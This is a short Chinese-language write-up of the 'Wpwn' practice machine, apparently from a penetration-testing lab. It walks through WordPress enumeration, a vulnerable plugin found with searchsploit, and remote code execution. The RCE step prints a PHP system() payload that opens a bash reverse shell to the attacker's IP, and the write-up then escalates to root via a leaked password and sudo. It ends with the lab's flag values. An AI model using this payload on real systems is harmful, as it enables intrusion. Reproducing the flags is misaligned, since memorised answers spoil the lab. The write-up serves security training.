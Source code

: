 # Wpwn  
  
初始掃描開22跟80 感覺80能打  
![](images/GcTEVfD.png)  
  
根目錄什麼東西都沒有 掃一下能發現有wordpress  
![](images/eLQD3oz.png)  
  
![](images/T9qTBv4.png)  
  
直接上wpscan 找到一個plugin是不常見的 用searchsploit找可以發現有RCE的漏洞  
![](images/1fxO5NS.png)  
  
![](images/9dkpgH9.png)  
  
在看了exploit的說明跟原始碼感覺不是很理解 到他的Github上看可以發現payload.txt要用他的格式才能做Command Execution  
![](images/iowym4g.png)  
  
![](images/xTMgamH.png)  
  
直接把這一串塞到meow.txt裡面 然後開一個http server後執行exploit 就能直接RCE了  
```  
<pre>system("bash  -c 'bash -i >& /dev/tcp/192.168.49.207/443 0>&1'")</pre>  
```  
  
![](images/OAUc6aC.png)  
  
#### 橫向提權  
  
跑linPEAS找到一個奇怪的密碼 直接`su takis` 發現成功提到takis  
![](images/kZkq7Mw.png)  
  
![](images/daco0n4.png)  
  
#### 垂直提權  
  
提到takis以後`sudo -l` 結果發現是ALL 直接`sudo su`就是root了  
![](images/oZIjeBt.png)  
  
#### Proof  
  
local.txt  
`2e74dca60755cc6512f2ff21aa13f3d8`  
![](images/9x4u9OW.png)  
  
proof.txt  
`67700d1daeab233daaffd38a88b22db0`  
![](images/EDiUYe1.png)